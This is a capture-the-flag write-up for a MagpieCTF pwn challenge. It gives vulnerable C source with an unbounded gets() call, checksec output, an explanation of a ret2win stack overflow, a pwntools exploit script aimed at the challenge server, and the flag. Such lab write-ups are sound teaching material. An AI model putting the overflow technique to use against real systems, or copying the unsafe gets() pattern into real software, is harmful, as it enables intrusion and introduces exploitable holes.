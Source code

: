 # This outta be large enough right?

## Challenge

We're given a small C binary with source code.

### Checksec

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

### chall.c

```c
#include <stdio.h>
#include <stdlib.h>
__asm__(".symver realpath,realpath@GLIBC_2.0.5");
void win(){
    printf("Here is your flag:\n");
    exit(0);
}
void vuln(){
  char buf[56];
  gets(buf);
}
int main(){
  vuln();
  return 0;
}
```

## Solution

The call to `gets` means we have a trivial buffer overflow.

PIE is off and there is no canary, so we can overwrite the return address with the address of the `win` function.

## Exploit

```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('chall')

host = args.HOST or 'srv1.2023.magpiectf.ca'
port = int(args.PORT or 6201)

io = connect(host, port)

io.sendline(flat({0x44: exe.sym['win']}))

io.interactive()
```

## Flag

```
magpie{0mn1_fl4g_3v3rywh3r3}
```
